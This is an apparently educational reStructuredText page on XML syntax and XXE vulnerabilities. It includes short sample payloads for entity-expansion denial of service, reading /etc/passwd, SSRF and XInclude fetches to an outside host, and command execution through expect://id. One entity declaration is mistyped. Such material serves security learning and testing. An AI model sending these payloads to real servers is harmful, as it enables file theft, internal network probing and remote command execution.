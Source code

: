 XXE
======================================

XML Basics
--------------------------------------
XML refers to the extensible markup language (eXtensible Markup Language), a markup language used to mark electronic files to make them structural, designed to transmit and store data. The XML document structure includes XML declarations, DTD document type definitions (optional), and document elements. At present, XML files are widely used as configuration files (Spring, Struts2, etc.), document structure description files (PDF, RSS, etc.), and image format files (SVG header). The syntax specification of XML is controlled by DTD (Document Type Definition).

Basic syntax
--------------------------------------
XML document has a structure called XML prolog at the beginning of the XML document. and encoding are optional, but must be placed at the beginning of the document.

In addition to optional beginnings, XML syntax mainly has the following characteristics:

- All XML elements must have a closed tag
- XML tags are case sensitive
- XML must be nested correctly
- XML documents must have root elements
- The attribute value of XML requires quotes

In addition, XML also has CDATA syntax, which is used to handle situations where multiple characters need to be escaped.

XXE
--------------------------------------
When references to external entities are allowed, malicious XML content can be constructed, resulting in the consequences of reading arbitrary files, executing system commands, detecting intranet ports, and attacking intranet websites. In general XXE attacks, only if the server has echo or errors, the XXE vulnerability can be used to read server-side files, but the attack can also be achieved through Blind XXE.

Attack method
--------------------------------------

Denial of Service Attack
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<! Entity a0 "dos">
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;">
]>
<data>&a2;</data>

If the parsing process is very slow, it means that the test is successful and the target site may have a denial of service vulnerability.
Specific attacks can use more layers of iteration or recursion, or reference huge external entities to achieve the effect of the attack.


File reading
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>

SSRF
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

<?xml version="1.0"?>
<!DOCTYPE data SYSTEM "http://publicServer.com/" [
<!ELEMENT data (#ANY)>
]>
<data>4</data>

RCE
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

<?xml version="1.0"?>
<!DOCTYPE GVI [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<catalog>
<core id="test101">
<description>&xxe;</description>
</core>
</catalog>

XInclude
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

<?xml version='1.0'?>
<data xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://publicServer.com/file.xml"></xi:include></data>

Reference link
--------------------------------------
- `XML Tutorial <http://www.w3school.com.cn/xml/>`_
- `Where is unknown attack, know how to defend XXE vulnerability attack and defense <https://security.tencent.com/index.php/blog/msg/69>`_
- `XXE Attack Note Sharing <http://www.freebuf.com/articles/web/97833.html>`_
- `From XML related step by step to XXE vulnerability <https://xz.aliyun.com/t/6887>`_
